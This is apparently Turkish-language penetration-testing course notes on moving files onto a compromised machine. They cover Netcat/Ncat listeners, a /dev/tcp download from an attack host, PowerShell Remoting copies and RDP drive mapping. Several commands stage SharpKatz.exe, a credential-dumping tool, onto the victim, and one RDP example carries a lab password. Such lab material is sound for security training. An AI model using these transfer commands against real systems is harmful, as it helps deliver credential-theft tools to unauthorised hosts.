


# Miscellaneous File Transfer Methods

## Netcat

Netcat veya nc, TCP veya UDP kullanarak ağ bağlantılarından okumak ve bu bağlantılara yazmak için kullanılan bir bilgisayar ağı yardımcı programıdır.

Orijinal Netcat, 1995 yılında Hobbit tarafından piyasaya sürüldü. Bu aracın esnekliği ve kullanışlılığı, Nmap projesini, Netcat aracının daha modern ve gelişmiş bir versiyonu olan Ncat aracını geliştirmeye yöneltti.

### NetCat - Compromised Machine - Listening on Port 8000

```bash
nc -l -p 8000 > SharpKatz.exe
```

### Ncat - Compromised Machine - Listening on Port 8000

```bash
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

### NetCat - Attack Host - Sending File to Compromised machine

```bash
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

### Ncat - Attack Host - Sending File to Compromised machine

```bash
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

### Attack Host - Sending File as Input to Netcat

Ele geçirdiğimiz makinede gelen bağlantıları dinlemek yerine, dosya aktarım işlemini gerçekleştirmek için saldırı makinemizde bulunan bir porta bağlanabiliriz. Bu yöntem, gelen bağlantıları engelleyen bir güvenlik duvarının olduğu senaryolarda kullanışlıdır. Örneğin 443 numaralı portu dinleyelim ve ilgili dosyayı Netcat aracına girdi olarak gönderelim:

```bash
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

### Compromised Machine Connect to Netcat to Receive the File

```bash
nc 192.168.49.128 443 > SharpKatz.exe
```

### Attack Host - Sending File as Input to Ncat

```bash
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### Compromised Machine Connect to Ncat to Receive the File

```bash
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

Ele geçirdiğimiz makinede Netcat veya Ncat yoksa [/dev/tcp](https://tldp.org/LDP/abs/html/devref1.html) kullanılabilir:

```bash
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

## PowerShell Session File Transfer

Dosya aktarımı için HTTP, HTTPS veya SMB protokollerinin kullanılamadığı senaryolar ile karşılaşabiliriz. Böyle durumlarda, dosya aktarım işlemlerini gerçekleştirmek için [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) (WinRM) kullanılabilir.

PowerShell Remoting, PowerShell oturumlarını kullanarak uzaktaki bir bilgisayarda komut dosyaları veya komutlar yürütmemize olanak tanır. PowerShell uzaktan iletişimi etkinleştirmek HTTP ve HTTPS dinleyicileri oluşturur. Dinleyiciler, HTTP için 5985/tcp ve HTTPS için 5986/tcp portlarında çalışır.

Uzak bir bilgisayarda PowerShell Remoting oturumu oluşturmak için aşağıdakiler gereklidir:

* Yönetici erişimine sahip olmak.
* Remote Management Users grubunun üyesi olmak veya oturum yapılandırmasında PowerShell Remoting için açık izinlere sahip olmak.

Örneğin `DC01` bilgisayarından `DATABASE01` bilgisayarına (ve tersi) dosya aktarmamız gereksin. Bu örnekte `DC01` bilgisayarında Administrator olarak bir oturumumuz bulunmaktadır. Aynı zamanda kullanıcı `DATABASE01` üzerinde yönetici haklarına sahip ve PowerShell Remoting etkin durumdadır.

Aşağıda verilen komut, `DATABASE01` bilgisayarında 5985/tcp WinRM açık olup olmadığını (`DC01` bilgisayarından) test etmektedir:

```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

```text title="Output"
ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

Bu oturum halihazırda `DATABASE01` üzerinde gerekli ayrıcalıklara sahip olduğundan kimlik bilgilerinin belirtilmesine gerek yoktur. Aşağıdaki örnekte `DATABASE01` adlı uzak bilgisayarda bir oturum oluşturulmakta ve sonuçlar bir değişkende saklanmaktadır:

```powershell
$Session = New-PSSession -ComputerName DATABASE01
```

### Copy samplefile.txt from our Localhost to the DATABASE01 Session

```powershell
Copy-Item -Path "C:\samplefile.txt" -ToSession $Session -Destination "C:\Users\Administrator\Desktop\"
```

### Copy DATABASE.txt from DATABASE01 Session to our Localhost

```powershell
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination "C:\" -FromSession $Session
```

## RDP

Bir Linux klasörünü `rdesktop` aracını kullanarak bağlamak için aşağıdaki komut kullanılabilir:

```bash
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

Bir Linux klasörünü `xfreerdp` aracını kullanarak bağlamak için aşağıdaki komut kullanılabilir:

```bash
xfreerdp /dynamic-resolution /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

Dizine erişmek için tsclient (Terminal Server Client) yoluna bağlanabiliriz:



Alternatif olarak [mstsc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mstsc) uzak masaüstü istemcisi kullanılabilir:



Sürücüyü seçtikten sonra uzak oturumda bu sürücüyle etkileşime geçebiliriz. Bu sürücü, hedef bilgisayarda oturum açan diğer kullanıcılar tarafından (RDP oturumunu ele geçirmeyi başarsalar bile) erişilemez.

## Practice Makes Perfect

Bu modülde öğrenilen bilgiler aşağıdaki modüllerde de kullanışlı olacaktır:

* Active Directory Enumeration and Attacks (Skills Assessments 1 & 2)
* Pivoting, Tunnelling & Port Forwarding
* Attacking Enterprise Networks
* Shells & Payloads
